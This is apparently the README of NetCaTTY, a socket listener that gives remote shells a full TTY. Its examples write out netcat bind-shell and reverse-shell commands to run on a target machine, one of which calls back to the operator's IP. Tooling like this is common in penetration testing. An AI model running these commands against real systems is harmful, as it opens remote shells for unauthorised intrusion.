 # NetCaTTY

A simple socket listener that gives you a TTY.

## Why do I need a TTY?

SSH gives you a TTY. All of the keyboard shortcuts are passed to the remote
shell, such as Ctrl-C or Ctrl-Z.

## Examples

It should be noted that not only bash/sh work, but any type of interactive
terminal command, such as php or python.

Please don't hurt puppers or kitties with them!

### Bind shell

Target machine (with IP 192.168.1.1): `nc -e "/bin/bash -i" -lp 4444`
Your terminal: `./netcatty -a 192.168.1.1:4444`

### Reverse shell

Target machine: `nc -e "/bin/bash -i" 192.168.1.100 4444`
Your terminal (with IP 192.168.1.100): `./netcatty -l :4444`

## Arguments

```
Usage of ./netcatty:
  -a string
    	Listen/Connect address in the form of 'ip:port'.
    	Domains, IPv6 as ip and Service as port ('localhost:http') also work. (default ":4444")
  -l	Enable listening mode
```
